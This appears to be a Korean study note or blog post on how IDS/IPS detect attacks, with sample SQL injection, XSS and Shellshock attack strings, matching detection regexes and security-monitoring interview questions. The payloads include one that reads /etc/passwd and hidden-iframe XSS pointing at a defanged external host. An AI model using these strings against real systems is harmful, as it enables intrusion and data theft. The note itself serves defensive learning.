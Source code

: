 ```yaml
---
layout : post
title : IPS/IDS
---
```


- Signiture - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS공격

- 행위기반 - 보편화되진 않지만 쓰이고있긴하다

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지.

  ​	 IDS에 차단하는 기능을 가지고 있는 것.

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  > Regex : /(\%27)|(\')|(\-\-)|(\%23)|(#)/ix

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  > Regex : /((\%3C)|<)((\%2F)|\/)\*[a-z0-9\%]+((\%3E)|>)/ix

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

  > Regex : "((?:\[^"\]\|\\\")*)"

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?

